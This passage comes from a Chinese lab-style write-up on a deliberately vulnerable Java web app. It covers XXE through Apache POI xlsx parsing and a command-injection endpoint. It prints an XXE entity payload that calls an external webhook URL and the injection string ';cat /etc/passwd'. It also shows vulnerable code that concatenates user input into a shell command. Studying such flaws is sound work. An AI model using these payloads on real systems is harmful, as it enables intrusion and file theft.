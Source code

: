 查看源码得知使用的是poi-ooxml组件（ Apache POI是提供Microsoft Office系列文档读、写功能的 JAVA 类库）进行xlsx文件操作，在3.10版本及以下存在XXE注入漏洞，3.15以下版本存在Dos漏洞，这里使用的是3.9版本。

![image-20250728114555336](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507281145386.png)

我们新建一个1.xlsx，用7-zip打开这个文件的压缩包

![image-20250728141719633](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507281417899.png)

然后修改[Content_Types].xml文件，在最上面添加

```
<!DOCTYPE test [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "	http://webhook.site/186f2ce9-cf0c-4eda-ad3f-49c3873814a7">
]>
<test>&xxe;</test>
```

在upload路由下上传这个1.xlsx，我们在webhook能发现这个文件执行成功了

![image-20250728141829969](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507281418084.png)

#### 12./xlsx-streamer/readxlsx

```
 @PostMapping("/readxlsx")
    public void xllx_streamer_xxe(MultipartFile file) throws IOException {
        StreamingReader.builder().open(file.getInputStream());
    }

```

和上题相比就是换了个库的区别，payload一样的



### Commandinject

#### 1./codeinject

```java
    @GetMapping("/codeinject")
    public String codeInject(String filepath) throws IOException {

        String[] cmdList = new String[]{"sh", "-c", "ls -la " + filepath};
        ProcessBuilder builder = new ProcessBuilder(cmdList);
        builder.redirectErrorStream(true);
        Process process = builder.start();
        return WebUtils.convertStreamToString(process.getInputStream());
    }

```

将传入的参数直接与原命令拼接，实现命令注入

```
?filepath=;cat /etc/passwd
```
